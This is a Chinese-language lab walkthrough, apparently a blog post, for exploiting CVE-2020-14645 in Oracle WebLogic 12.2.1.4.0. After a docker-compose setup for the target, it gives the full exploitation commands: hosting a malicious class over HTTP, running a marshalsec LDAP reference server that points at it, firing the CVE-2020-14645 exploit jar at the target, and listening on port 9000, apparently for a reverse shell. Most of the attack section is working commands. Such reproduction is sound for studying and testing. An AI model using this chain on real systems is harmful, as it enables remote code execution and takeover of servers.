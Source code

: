 jdk: 8u181(因为版本原因，后续我们用 LDAP)  
weblogic: 12.2.1.4.0

  
搭建靶机可以用我最下面分享的一个 github 上的工具快速搭建，也可以直接镜像或者 docker-compose.yml

1. 靶机 docker 镜像 https://hub.docker.com/repository/docker/z1du/weblogic12214jdk8u181

2.docker-compose.yml  

```
version: '2'
services:
 weblogic:
   image: z1du/weblogic12214jdk8u181
   ports:
    - "7001:7001"
```

_**No.3  
**_

_**漏洞利用**_

![](https://mmbiz.qpic.cn/mmbiz_jpg/HxO8NorP4JXysNoPNia6TicAmR8CIo1X0BtcY89AM9VxfEaziam1CymTJGoGo5vYMwfmvxnbU7j9WsOV8zzbE6DKA/640?wx_fmt=jpeg)

开启 http 服务  
python -m http.server 5001  

![](https://mmbiz.qpic.cn/mmbiz_jpg/HxO8NorP4JXysNoPNia6TicAmR8CIo1X0BvTDeLIxLluAB5gRiaEJukicOaFjic3ygpscicJtCsiaDfJxuFlfVD8u8M6w/640?wx_fmt=jpeg)

开启 ldap 服务 (此处 192.168.71.128 为本机 ip)  
开启 rmi 方法差不多，我们只需要将 LDAPRefServer 改为 RMIRefServer 即可

```
LDAP_ip:LDAP_port/# 后面填写你的恶意类的类名
    1099是你开启rmi服务的端口号，如果不加端口号，它的默认端口号为1099。
    ldap的默认开启端口是1389(无视这边1099，懒得改)

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar  marshalsec.jndi.LDAPRefServer http://192.168.71.128:5001/# exp 1099
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/HxO8NorP4JXysNoPNia6TicAmR8CIo1X0B53ibjbnXOtJ8HhgVQliaQCIhYJbMzkyp9csGcAp0iaGqqRP0EyVh7oCCA/640?wx_fmt=jpeg)

此处 192.168.71.133 为靶机 ip

```
LDAP_ip:LDAP_port/# Class_name     weblogic_ip:weblogic_port
java -jar CVE-2020-14645.jar 192.168.71.128:1099/# exp http://192.168.71.133:7001
```

**exp.java**

![](https://mmbiz.qpic.cn/mmbiz_jpg/HxO8NorP4JXysNoPNia6TicAmR8CIo1X0B2oK8uXiciaqK6tHk7r7x0OqqMYXq7n3XIE7CliaOVoU18iaGun3A76gyuQ/640?wx_fmt=jpeg)

**监听 9000 端口**

